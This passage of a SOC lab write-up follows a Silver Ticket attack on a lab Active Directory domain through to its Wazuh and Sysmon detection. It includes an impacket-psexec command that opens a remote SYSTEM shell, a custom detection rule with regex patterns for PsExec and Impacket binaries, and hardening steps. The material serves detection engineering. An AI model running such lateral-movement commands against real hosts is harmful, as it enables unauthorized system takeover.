
*Figure 4.3: Impacket-smbclient establishing interactive SMB session to `WIN-SOCLAB` without KDC authentication.*

---

### Phase 5: Lateral Movement & Remote SYSTEM Takeover

To execute commands on the target host, `impacket-psexec` was launched. Impacket connects to the `ADMIN$` share, uploads a service binary stager, registers a service with the Service Control Manager (SCM), and opens an interactive command shell executing as `NT AUTHORITY\SYSTEM`:

```bash
# Execute remote interactive shell via PsExec
impacket-psexec 'soclab.local/svc-silver14:REDACTED@WIN-SOCLAB.soclab.local' whoami
```


*Figure 5.1: Impacket-psexec creating service, obtaining interactive prompt, and executing `whoami` (`nt authority\system`) and `whoami /groups` (`BUILTIN\Administrators`).*

---

### Phase 6: Defender SIEM Detection & Telemetry Correlation

While the KDC generated zero events for the forged ticket, the target host logged extensive endpoint and security events:

#### 1. Off-Hours Network Logon (Event 4624 Type 3) — Rule 100115
The network logon initiated by the attacker triggered custom **Rule 100115**:


*Figure 6.1: Wazuh Rule 100115 firing at Level 10 for off-hours network logon.*

#### 2. Special Privilege Assignment (Event 4672)
LSASS evaluated the administrative PAC and assigned elevated privileges (`SeDebugPrivilege`, `SeBackupPrivilege`, `SeTakeOwnershipPrivilege`):


*Figure 6.2: Threat Hunting dashboard displaying Event 4672 administrative privilege assignment.*


*Figure 6.3: Document details displaying the full `PrivilegeList` allocated to the elevated session.*

#### 3. Remote Service Installation (Event 7045) — Rule 100104
The Windows Service Control Manager recorded the registration of the PsExec service binary:


*Figure 6.4: Wazuh Rule 100104 (Level 8) alerting on New Service Installation.*


*Figure 6.5: Document details showing service binary path `C:\Windows\PSEXESVC.exe`.*

#### 4. Baseline Kerberos & Logon Telemetry (Events 4769 & 4624)
Surrounding Kerberos service ticket requests and baseline logon events were cataloged:


*Figure 6.6: Wazuh Rule 100117 indexing Kerberos service authentication events.*


*Figure 6.7: Wazuh Rule 60106 recording baseline Windows logon success (Event 4624).*


*Figure 6.8: Event 4769 document details showing TGS service ticket request telemetry.*

---

### Phase 7: Endpoint Telemetry (Sysmon Event 1) & Custom Rule 100126

Standard Windows Security Event Logs record service creation (Event 7045), but modern adversaries frequently rename services or randomize binary names. **Sysmon Event 1 (Process Creation)** provides the forensic ground truth: command-line arguments, process GUIDs, parent process IDs, and cryptographic file hashes.


*Figure 7.1: Sysmon Event 1 document details showing `Image: C:\Windows\PSEXESVC.exe`.*


*Figure 7.2: Process creation metadata capturing ProcessGuid and execution parameters.*


*Figure 7.3: Sysmon Event 1 forensic hashes (SHA256, MD5, IMPHASH) and `User: NT AUTHORITY\SYSTEM`.*


*Figure 7.4: Parent process confirmation: `ParentProcessId: 648` and `ParentImage: C:\Windows\system32\services.exe`.*


*Figure 7.5: Full raw EventChannel JSON payload ingested by Wazuh Manager.*

#### Live Detection Alert: Rule 100126 (Level 12)
Custom **Rule 100126** was deployed on the Wazuh Manager. When `impacket-psexec` executed, Rule 100126 triggered a **Level 12 High Severity** alert:


*Figure 7.6: Wazuh Threat Hunting dashboard confirming Rule 100126 live alert: "Lateral Movement: PsExec execution detected on host via Sysmon Event 1" (Level 12).*

---

## Wazuh Custom Detection Rule Engineering: Rule 100126

### Production XML Implementation

The following rule definition was deployed into the active Wazuh configuration at `/var/lib/docker/volumes/single-node_wazuh_etc/_data/local_rules.xml`:

```xml
<group name="windows,sysmon,lateral_movement,kerberos,">

  <!-- ============================================================== -->
  <!-- Rule 100126: Lateral Movement - PsExec & Remote Service Exec    -->
  <!-- ============================================================== -->
  <rule id="100126" level="12">
    <!-- Inherits from Sysmon Event 1 (184665) or Windows generic (60103) -->
    <if_sid>184665,60103</if_sid>
    <field name="win.system.eventId">^1$</field>
    <!-- Matches Sysinternals PSEXESVC OR Windows root service binary execution -->
    <field name="win.eventdata.image">PSEXESVC\.exe|C:\\\\Windows\\\\([a-zA-Z0-9]+)\.exe</field>
    <description>Lateral Movement: PsExec execution detected on host via Sysmon Event 1</description>
    <mitre>
      <id>T1021.002</id>
      <id>T1558.002</id>
    </mitre>
  </rule>

</group>
```

### Engineering Discoveries & Detection Logic
1. **Sysmon Parent Rule Dependency (`if_sid` 184665):**
   In Wazuh 4.x using `windows_eventchannel`, Sysmon Process Creation (Event 1) events are classified under parent rule **`184665`** (`Sysmon - Event 1: Process creation`). If a custom rule parents strictly under legacy Windows rule `60103` without `184665`, the rule will fail to evaluate incoming Sysmon telemetry. Parenting under `<if_sid>184665,60103</if_sid>` provides robust cross-engine compatibility.
2. **Binary Name Polymorphism Detection:**
   Adversary tools such as Impacket randomize the uploaded binary name by default (e.g., `cfveLjDG.exe` or `TkDRpZcD.exe`) located in `C:\Windows\`. The regex `PSEXESVC\.exe|C:\\\\Windows\\\\([a-zA-Z0-9]+)\.exe` captures both standard Sysinternals PsExec service names and randomized 8-character Impacket dropped binaries.
3. **Correlation with Service Control Manager (Parent PID 648):**
   Legitimate user processes originate from `explorer.exe` or terminal shells. Remotely staged PsExec binaries originate exclusively from `C:\Windows\System32\services.exe` (PID 648 in our lab), allowing precise attribution to remote service installation.

---

## Defensive Remediation & Hardening Guide

Because a Silver Ticket bypasses the KDC, standard domain-wide controls (like resetting the `krbtgt` password) have **zero effect** on an active Silver Ticket attack. Defense must focus on machine account hygiene and cryptographic validation:

### 1. Computer Account Password Rotation
If a machine account NTLM hash or AES key is compromised, the machine account password must be reset immediately:

```powershell
# Reset local machine account password on the target computer
Reset-ComputerMachinePassword
```

### 2. Enforce Kerberos PAC Validation
Ensure that target servers validate the PAC signature with the Domain Controller. Enable strict Kerberos PAC signature verification via the Windows Registry:

```powershell
# Enforce strict Kerberos PAC signature verification (CVE-2022-37967)
New-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\Kerberos\Parameters" `
  -Name "PacSignatureValidation" -Value 1 -PropertyType DWord -Force
```

### 3. Deploy Group Managed Service Accounts (gMSA)
Service accounts running Kerberos SPNs (e.g., `MSSQLSvc`, `HTTP`) should be migrated to **Group Managed Service Accounts (gMSA)**. Active Directory automatically rotates gMSA passwords every 30 days using complex 128-character cryptographically secure keys, eliminating static NTLM and AES key harvesting.

```powershell
# Create gMSA root key and install service account
Add-KdsRootKey -EffectiveImmediately
New-ADServiceAccount -Name "gMSA-WebSvc" -DNSHostName "websvc.soclab.local" -PrincipalsAllowedToRetrieveManagedPassword "WebServersGroup"
```

### 4. Restrict Administrative Accounts to "Protected Users"
Add sensitive administrative users to the built-in **Protected Users** security group:
- Disables NTLM authentication and caching.
- Forces AES encryption for Kerberos tickets.
- Limits ticket lifetime to 4 hours (drastically constraining attacker persistence).

---

## Appendix: Telemetry Field Mapping Reference

```text
+------------------------------------+--------------------------+-------------------------------------------------------------+
| Wazuh Telemetry Field              | Windows Event Log Field  | Forensically Significant Value                              |
+------------------------------------+--------------------------+-------------------------------------------------------------+
| win.system.eventId                 | EventID                  | 1 (Sysmon), 4624 (Logon), 4672 (Privilege), 7045 (Service)   |
| win.eventdata.image                | Image                    | C:\Windows\PSEXESVC.exe (Remote Service Binary)             |
| win.eventdata.parentImage          | ParentImage              | C:\Windows\system32\services.exe (Service Control Manager)  |
| win.eventdata.user                 | User                     | NT AUTHORITY\SYSTEM                                         |
| win.eventdata.logonType            | LogonType                | 3 (Network Logon via SMB/CIFS)                              |
| win.eventdata.serviceName          | ServiceName              | cifs/WIN-SOCLAB.soclab.local                                |
| win.eventdata.hashes               | Hashes                   | SHA256=..., MD5=..., IMPHASH=...                            |
| win.eventdata.targetUserName       | TargetUserName           | svc-silver14 / Administrator                                |
| win.eventdata.privilegeList        | PrivilegeList            | SeDebugPrivilege, SeSecurityPrivilege, SeBackupPrivilege    |
+------------------------------------+--------------------------+-------------------------------------------------------------+
```

---

*Author / SOC Detection Engineer: Muhammad Awais Javed*  
*Repository: [Wazuh-Home-SOC-Lab](https://github.com/awaisjaved-soc/SOC-Journey-2026)*  
*Laboratory Date: November 19, 2026*
